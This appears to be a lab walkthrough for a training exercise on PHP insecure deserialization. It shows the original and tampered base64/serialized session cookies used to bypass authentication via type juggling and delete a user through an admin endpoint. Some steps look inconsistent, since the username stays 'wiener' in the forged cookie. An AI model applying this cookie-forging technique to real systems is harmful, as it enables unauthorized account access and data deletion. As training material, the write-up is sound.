 ## Lab: Modifying serialized data types

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete the user **carlos**.

You can log in to your own account using the following credentials: **wiener:peter**

### Exploit and analysis

1. Login as user _wiener_
    1. Capture session cookie
2. Base64 decode it `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJvdzBwNHdkcnhnajZ0Ym92emliN2hpM2RveGV5MmpjciI7fQ%3d%3d` = `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ow0p4wdrxgj6tbovzib7hi3doxey2jcr";}`

PHP serialization syntax uses **s** to identify string data-type and **i** for integer data-type, replace the access_token value with **0** and remove both quotations and value length.

3. Change the cookie to
`Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ==` = `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`
    1  Base64 encode the cookie
    2. Repeat request for **/my-account?id=administrator**
    3. Note that a link for **Admin panel** is not available

```html
 <div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```

4. Perform a GET request for the URL above and delete the user carlos